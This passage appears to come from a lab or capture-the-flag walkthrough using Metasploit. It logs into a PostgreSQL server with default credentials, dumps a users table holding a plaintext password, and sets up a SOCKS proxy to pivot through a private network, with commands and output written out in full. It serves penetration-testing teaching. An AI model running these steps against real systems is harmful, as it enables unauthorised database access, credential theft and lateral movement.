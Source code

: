 ```text
    - ColumnName: deleted_at
      ColumnType: timestamp
      ColumnLength: '8'
  - TableName: users_pkey
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/postgres/postgres_schemadump) > use auxiliary/admin/postgres/postgres_sql 
msf6 auxiliary(admin/postgres/postgres_sql) > run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

To further pivot through the private network, we can create a socks proxy within Metasploit:

```text
msf6 auxiliary(admin/postgres/postgres_sql) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run srvhost=127.0.0.1 srvport=9050 version=4a
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

This will expose a port on the attacker machine that can be used to run other network tools through, such as `curl` or `proxychains`.

```text
msf6 auxiliary(server/socks_proxy) > curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v
[*] exec: curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

*   Trying 127.0.0.1:9050...
* SOCKS4 communication to 172.17.0.1:80
* SOCKS4a request granted.
* Connected to localhost (127.0.0.1) port 9050 (#0)
> GET / HTTP/1.1
> Host: 172.17.0.1
> User-Agent: curl/7.85.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Fri, 09 Dec 2022 19:13:11 GMT
< Server: Apache/2.4.54 (Debian)
< X-Powered-By: PHP/7.4.30
< Cache-Control: no-cache, private
< Set-Cookie: XSRF-TOKEN=eyJpdiI6Imc5QUppRWZUY25KVWF3YS80dGZqNXc9PSIsInZhbHVlIjoiRWh3S1NDazAyWit3K1pOQ2liWmN0c3hHYVJHWlp1c2Z4T21WZmdZNWt2MEoxdkU5ZVhKOUlBSUhwQ1JFbVk0eGk3dG9iQVNoMnJlYVlQY1VUZXBLenpHTjU4RytydkYzRWx3emFMbWdYOFFmQlNhNllTcy9tM0ZZTXRoWDhJeW8iLCJtYWMiOiJlZDhhZGQwZWJhODk1OTE1YTMyNmY3NmJiMjQxNDE1Y2ViMTgwNmU2NDJiM2Q0ODk5MDEzNjUwMzljODlmM2RjIn0%3D; expires=Fri, 09-Dec-2022 21:13:11 GMT; Max-Age=7200; path=/; samesite=lax
```